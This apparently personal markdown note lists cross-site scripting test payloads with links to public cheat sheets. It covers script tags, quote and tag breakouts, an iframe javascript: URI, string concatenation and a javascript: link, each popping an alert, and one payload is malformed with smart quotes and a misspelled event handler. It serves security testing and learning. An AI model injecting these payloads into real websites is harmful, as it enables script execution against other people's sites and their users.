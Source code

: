 #xss 

## Resources
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45 

## Base
```html
<script>alert("XSS")</script>
```

```html
<script>alert(document.domain)</script>
```

## Others
```html
"><script>alert(document.domain)</script>
```

```html
</script><script>alert(document.domain)</script>
```

```html
<iframe src="javascript:alert(`document.domain`)"> 
```

```js
'+alert(document.domain)+'
```

```js
http://“onmousover=”alert(document.domain)
```

##  In URL
### Payload
```js
 javascript:alert(document.domain)
```

### Injected
```html
<a href="javascript:alert(document.domain)">Visit my profile</a>
```